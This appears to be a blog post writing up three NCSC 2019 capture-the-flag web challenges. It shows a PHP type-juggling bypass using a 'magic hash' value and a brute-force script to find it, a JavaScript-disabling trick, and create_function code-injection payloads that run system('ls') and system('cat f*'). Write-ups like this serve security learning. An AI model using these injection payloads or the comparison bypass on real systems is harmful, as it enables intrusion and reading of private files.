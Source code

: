 ```yaml
---
layout: post
title:  "NCSC 2019 - web0, web1, halfline"
author: "G0d3l"
tags: NCSC web
use_math: true
---
```



## web0

We were given a page with the following source code

{% highlight php %}
<?php
if (isset($_GET['source']))
    highlight_file(__FILE__) and die();
if (isset($_GET['md5']))
{
include('./private/flag.php');     
    $md5=$_GET['md5'];
    if ($md5==md5($md5))
        echo "<br>WP ! Here is your flag: <br>" . $flag;
    else
        echo "Nah.. Incorrect Answer"; 
}
?>
{% endhighlight %}

The condition to show the flag is `$md5==md5($md5)`. Due to the use of the `==` operator, we went in the type juggling direction.

We know that if two strings are in the form "0eX" where `X` is numeric, `==` will cast them to  $0 * e ^{X}$. Meaning that they will both be equal to 0 at evaluation time.

We wrote a php script to find out a string in the form "0eX" that have an md5 in the same form.

{% highlight php %}
<?php

$i = 0;
while (true) {
  $str = "0e$i";
  $hash = md5($str);
  if ($str==$hash) {
    var_dump($str, $hash);
    break;
  }
  $i++;
}
{% endhighlight %}

After few seconds, it gave us the following result:

{% highlight console %}
$ php type.php
string(11) "0e215962017"
string(32) "0e291242476940776845150308577824"
{% endhighlight %}

then,

> WP ! Here is your flag: 
> Securinets{Gg!H4K3Rm@N}


## web1

We were given a script that prevents you from selecting all checkboxes in a form.

Inspect `=>` Settings => Disable Javascript.

:p

> Good job, take your flag: Securinets{HuNgRY_Pl4y3r}


## halfline challenge

We were given a page with the following source code.

{% highlight php %}
<?php
error_reporting(0);
highlight_file(__FILE__);

$_ = $_GET['_'];
$__ = $_GET['__'];

$_('', $__);
?>
{% endhighlight %}

Our intuition was to find a function that accepts a mixed param as first arg and a callback as the second.

We found out this [stackoverflow thread][thread] that contains exploitable PHP functions.

After some time, we only restricted the search on the create_function function.

On the php website we found this **Caution**:

> This function internally performs an eval() and as such has the same security issues as eval(). Additionally it has bad performance and memory usage characteristics.

We searched for exploits and we found the following [EDB-ID 32417][edb].

So, we used the following payloads to get the flag:

`?_=create_function&__=return 0; } system('ls'); //`

`?_=create_function&__=return 0; } system('cat f*'); //`

We got an image and strings got us the flag.


[thread]:https://stackoverflow.com/questions/3115559/exploitable-php-functions
[edb]:https://www.exploit-db.com/exploits/32417
